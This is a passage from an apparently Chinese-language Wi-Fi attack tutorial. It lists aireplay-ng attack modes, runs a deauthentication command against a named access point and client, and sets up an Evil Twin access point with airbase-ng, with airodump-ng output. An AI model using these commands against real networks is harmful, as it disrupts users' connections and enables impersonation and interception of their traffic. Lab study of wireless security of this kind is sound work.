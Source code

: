 ```bash

      -i iface  : capture packets from this interface	从指定网卡捕获数据包
      -r file   : extract packets from this pcap file	从指定pcap文件获取数据包

  Miscellaneous options:

      -R                    : disable /dev/rtc usage
      --ignore-negative-one : if the interface's channel can't be determined,
                              ignore the mismatch, needed for unpatched cfg80211
      --deauth-rc rc        : Deauthentication reason code [0-254] (Default: 7)

  Attack modes (numbers can still be used):

      --deauth      count : deauthenticate 1 or all stations (-0) 	解除认证攻击
      --fakeauth    delay : fake authentication with AP (-1)		伪造认证攻击
      --interactive       : interactive frame selection (-2)		交互式注入攻击
      --arpreplay         : standard ARP-request replay (-3)		ARP请求包重放攻击
      --chopchop          : decrypt/chopchop WEP packet (-4)		chopchop Korek攻击
      --fragment          : generates valid keystream   (-5)		碎片交错攻击
      --caffe-latte       : query a client for new IVs  (-6)		Cafe-latte 攻击
      --cfrag             : fragments against a client  (-7)		面向客户的碎片攻击
      --migmode           : attacks WPA migration mode  (-8)		WPA迁移模式
      --test              : tests injection and quality (-9)		数据包注入测试 
      
root@kali:~# aireplay-ng -0 5 -a 9C:A6:15:1E:1B:EE -c 14:9D:09:A8:4B:FE wlan0
```

### Evil Twin和AP MAC地址欺骗

先用选择一个被攻击的ap, 记录他的essid比如 `Wireless Lab`

```bash
root@kali:~# airbase-ng --essid "Wireless Lab" -c 6 wlan0 
16:54:18  Created tap interface at0
16:54:18  Trying to set MTU on at0 to 1500
16:54:18  Access Point with BSSID 1C:BF:CE:54:E2:F7 started.
```

打开`airodump-ng` 

```bash
root@kali:~# airodump-ng -c 6 wlan0
 CH  6 ][ Elapsed: 6 s ][ 2019-11-24 16:56                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 1C:BF:CE:54:E2:F7    0 100      102      0    0   6  54   OPN              Wireless Lab
 E4:D3:32:44:61:BE  -56 100       99      0    0   6  405  WPA2 CCMP   PSK  Wireless Lab
 50:D2:F5:23:14:1C  -63  96       94      0    0   7  130  WPA2 CCMP   PSK  Xiaomi_DDD                                                                                            
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```
